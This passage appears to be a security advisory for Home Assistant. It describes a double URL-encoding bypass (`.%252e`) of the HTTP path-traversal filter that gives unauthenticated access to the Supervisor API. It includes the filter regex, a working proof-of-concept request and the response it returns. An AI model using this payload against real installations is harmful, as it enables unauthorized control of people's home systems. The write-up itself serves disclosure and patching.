 The [`http` integration](https://www.home-assistant.io/integrations/http) upon which the HTTP API is built on top of has some basic security filter middleware to prevent path traversal attacks such as this, however it was found to be easily bypassed. It attemps to block path traversal requests by checking the `request.path` field against a [regular expression](https://github.com/home-assistant/core/blob/6cab27f378ebdeb14236ae7d08dfd0701cc000bb/homeassistant/components/http/security_filter.py#L23-L25):

```py
# File Injections
r"|(\.\.//?)+"  # ../../anywhere
r"|[a-zA-Z0-9_]=/([a-z0-9_.]//?)+"  # .html?v=/.//test
```

As stated in the [aiohttp documentation](https://docs.aiohttp.org/en/stable/web_reference.html#aiohttp.web.BaseRequest.path) the `request.path` field is URL-decoded. Although a payload such as `app/.%2e/supervisor/info` will be caught by the filter (as it will decode to `app/../supervisor/info`), a double URL-encoded payload such as `app/.%252e/supervisor/info` will not (as it will decode to `app/.%2e/supervisor/info`). Because of the behaviour of the aiohttp client used to proxy the request to the Supervisor API, this path will be decoded and normalised and will eventually resolve to `/supervisor/info` when it reaches the Supervisor API. This allows an unauthenticated user to access any endpoint on the Supervisor API.

# Proof of Concept

The vulnerability can be tested on any Home Assistant OS or Supervised installation by accessing the `/api/hassio/app/.%252e/supervisor/info` path:

```
$ http http://192.168.1.20:8123/api/hassio/app/.%252e/supervisor/info
HTTP/1.1 200 OK
Content-Type: application/json
Date: Fri, 17 Feb 2023 03:02:58 GMT
Server: Python/3.10 aiohttp/3.8.3
Transfer-Encoding: chunked

{
    "data": {
        "addons": [],
        "addons_repositories": [
            {
                "name": "Local add-ons",
                "slug": "local"
            },
            {
                "name": "ESPHome",
                "slug": "5c53de3b"
            },
            {
                "name": "Official add-ons",
                "slug": "core"
            },
            {
                "name": "Home Assistant Community Add-ons",
                "slug": "a0d7b954"
            }
        ],
        "arch": "amd64",
        "auto_update": true,
        "channel": "stable",
        "debug": false,
        "debug_block": false,
        "diagnostics": true,
        "healthy": false,
        "ip_address": "172.30.32.2",
        "logging": "info",
```